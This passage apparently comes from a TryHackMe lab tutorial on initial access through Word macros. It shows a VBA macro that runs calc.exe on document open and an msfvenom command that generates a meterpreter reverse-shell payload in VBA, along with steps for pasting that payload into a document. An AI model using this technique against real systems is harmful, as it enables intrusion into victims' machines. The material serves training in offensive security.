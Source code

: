 Once we allowed the Enable Content, our macro gets executed as shown,

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/ca228c238732dcdf21139317992a0083.png)

Now edit the word document and create a macro function that executes a calc.exe or any executable file as proof of concept as follows,

```javascript
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload.  Note that if you want to rename the function name, then you must include the function name in the AutoOpen() and Document_open() functions too.

Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create AutoOpen() and Document_open() functions before saving the document. Once the code works, now save the file and try to open it again.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/5c80382621d3fcb578a9e128ca821e71.png)

It is important to mention that we can combine VBAs with previously  covered methods, such as HTAs and WSH. VBAs/macros by themselves do not  inherently bypass any detections.

​                                                            

*Now let's create an in-memory  meterpreter payload using the Metasploit framework to receive a reverse  shell. First, from the AttackBox, we create our meterpreter payload  using msfvenom. We need to specify the Payload, LHOST, and LPORT, which match what is in the Metasploit framework. Note that we specify the payload as VBA to use it as a macro.*

*Terminal*

```shell-session
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```

*The value of the LHOST in the above terminal is an example of AttackBox's IP address that we used. In your case, you need to specify the IP address of your AttackBox.*

***Import to note** that one modification needs to be done to make this work. The output  will be working on an MS excel sheet. Therefore, change the Workbook_Open() to Document_Open() to make it suitable for MS word documents.*

*Now copy the output and save it into the macro editor of the MS word document, as we showed previously.*
